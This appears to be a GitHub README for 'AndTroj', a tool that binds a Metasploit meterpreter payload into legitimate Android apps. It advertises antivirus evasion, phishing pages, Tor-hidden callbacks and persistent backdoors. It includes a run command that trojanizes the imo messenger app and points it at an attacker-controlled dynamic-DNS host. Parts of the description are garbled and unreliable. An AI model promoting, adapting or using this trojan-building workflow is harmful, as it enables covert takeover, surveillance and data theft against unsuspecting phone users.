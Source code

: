 # AndTroj
Android Remote Access Trojan Binder

[![Unk9vvN](https://img.shields.io/badge/Unk9vvN-AndTroj-green.svg)](https://github.com/unk9vvn/AndTroj)
[![License MIT](https://img.shields.io/github/license/mashape/apistatus.svg)](https://github.com/unk9vvn/AndTroj/blob/master/LICENSE)
[![License MIT](https://img.shields.io/badge/telegram-channel-orange.svg)](https://t.me/Unk9vvN)
[![Follow on Twitter](https://img.shields.io/twitter/follow/espadrine.svg?label=Follow&style=social)](https://twitter.com/intent/follow?screen_name=unk9vvn)


A tool for integrating the Metasploit payload with Android's healthy programs and bypassing antivirus

# Features
- :heavy_check_mark: Using custom dns for harvester phishing webpages.
- :heavy_check_mark: Bypass 90% android Antivirus (Obfuscation Method).
- :heavy_check_mark: Bind metasploit meterpreter payload (android) Original APKs.
- :heavy_check_mark: Anti forensic connections in targets (using tor proxys for ngrok connections).
- :heavy_check_mark: Create automations persistence and bash backdoor for android phones.


# Screenshot

![alt text][logo]

[logo]: https://raw.githubusercontent.com/unk9vvn/AndTroj/master/menu.jpg "Logo Title Text 2"


This tool creates a tune-up of the Metasploit program, unlocks the program and integrates it into the footage. During this operation, the vagaries are mimicking the unpacking Android antivirus and compiling it after the completion of the integration. For the program's service, it's one-on-one and rearwards automatically after getting back access on Android OS Bargas And it runs to allow the service to be activated every hour, all of which is done automatically


# How to Run (Example)
```
# ┌──(unk9vvn㉿avi)-[~]
# └─$ sudo chmod +x AndTroj.sh;sudo ./AndTroj.sh example.ddns.net imo-messenger.apk https://play.google.com/store/apps/details?id=com.imo.android.imoim&hl=fa&gl=US
```
Only support the Kali Linux operating system

Website: [Unk9vvN](https://unk9vvn.com)
